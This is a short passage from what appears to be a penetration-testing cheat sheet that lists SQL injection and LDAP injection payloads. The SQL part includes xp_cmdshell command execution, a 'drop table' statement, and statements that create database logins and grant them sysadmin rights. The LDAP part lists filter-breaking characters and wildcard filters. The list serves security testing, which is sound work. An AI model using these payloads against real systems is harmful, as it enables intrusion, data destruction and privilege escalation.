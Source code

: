 ### Active SQL Injection (SQI)

`'; exec master..xp_cmdshell 'ping 10.10.1.2'--`

`CREATE USER name IDENTIFIED BY 'pass123'`

`CREATE USER name IDENTIFIED BY pass123 TEMPORARY TABLESPACE temp DEFAULT TABLESPACE users;`

`' ; drop table temp --`

`exec sp_addlogin 'name' , 'password'`

`exec sp_addsrvrolemember 'name' , 'sysadmin'`

`INSERT INTO mysql.user (user, host, password) VALUES ('name', 'localhost', PASSWORD('pass123'))`

`GRANT CONNECT TO name; GRANT RESOURCE TO name;`

`INSERT INTO Users(Login, Password, Level) VALUES( char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72) + char(0x70)`

`+ char(0x65) + char(0x74) + char(0x65) + char(0x72),char(0x64)`

## LDAP Injection

For details on LDAP Injection: [Testing for LDAP Injection](../4-Web_Application_Security_Testing/07-Input_Validation_Testing/06-Testing_for_LDAP_Injection.md)

`|`

`!`

`(`

`)`

`%28`

`%29`

`&`

`%26`

`%21`

`%7C`

`*|`

`%2A%7C`

`*(|(mail=*))`

`%2A%28%7C%28mail%3D%2A%29%29`

`*(|(objectclass=*))`

`%2A%28%7C%28objectclass%3D%2A%29%29`

`*()|%26'`

`admin*`
